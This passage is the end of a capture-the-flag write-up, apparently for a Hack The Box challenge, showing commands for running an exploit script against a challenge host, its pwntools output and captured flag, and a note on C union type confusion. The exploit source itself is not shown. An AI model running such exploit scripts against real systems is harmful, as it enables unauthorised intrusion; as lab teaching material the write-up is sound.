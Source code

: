```bash
python3 entity_exploit.py
python3 entity_exploit.py --host 1.2.3.4 --port 1337
```

## Exploitation Output 🎯

```bash
python exploit.py --host 94.237.58.4 --port 44965
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Opening connection to 94.237.58.4 on port 44965: Done
[*] Sending STORE_SET + STRING path to manipulate union value...
13371337
[*] Switching to interactive mode
HTB{th3_3nt1ty_0f_htb00_i5_5t1ll_h3r3}
```

## Conclusion 📘

This challenge illustrates how a seemingly simple `union` type in C can become exploitable:
- It allows reinterpretation of memory in clever ways.
- A good example of **logic flaw + type confusion** to bypass input filtering.

🔙 [Back to Challenge Writeups](../../)
